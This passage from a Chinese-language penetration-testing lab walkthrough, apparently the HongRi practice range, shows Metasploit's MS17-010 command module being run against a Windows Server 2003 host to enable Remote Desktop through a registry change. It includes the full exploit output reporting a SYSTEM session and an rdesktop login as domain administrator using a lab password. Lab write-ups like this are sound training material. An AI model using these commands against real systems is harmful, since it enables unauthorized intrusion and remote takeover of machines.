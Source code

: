 命令执行成功了，我们换一条命令，将其远程桌面服务打开

```python
msf6 auxiliary(admin/smb/ms17_010_command) > set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
```

```python
[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x8d1c0d60
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f":

The operation completed successfully.

[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
```

成功打开，尝试连接，使用`rdesktop` ,用户就用得到的域管理员用户，也可以自己新建（图片上的密码其实是`hongrisec@2019`的）

```python
proxychains rdesktop 192.168.52.141 -p hongrisec@2019 -u administrator
```

![image.png](image%2011.png)
